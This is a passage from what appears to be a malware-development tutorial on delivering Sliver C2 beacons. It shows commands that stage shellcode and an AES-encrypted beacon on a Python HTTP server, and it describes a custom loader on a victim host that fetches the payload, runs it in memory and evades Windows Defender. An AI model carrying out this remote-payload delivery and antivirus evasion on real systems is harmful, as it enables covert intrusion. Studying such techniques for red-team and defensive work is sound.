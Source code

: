 Lets copy all files to the `/tmp` directory and run our Python HTTP server.

```console
$ cp rev.bin /tmp/rev.bin
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

## Payload Execution
Now with everything set lets try to get a beacon from our victim machine (`172.16.0.5`).

![Sliver Execution](../assets/images/maldev/sliver-execution.png)

After executing our custom shellcode loader, we can see it has grabbed our beacon from our Python server, loaded our shellcode in memory and we received a connection from our server without alerting Windows Defender. We can also try running our modified FilelessPELoader executable.

```console
$ python3 aes.py beacon.exe
$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

![Sliver FilelessPELoader](../assets/images/maldev/sliver-FilelessPELoader.png)
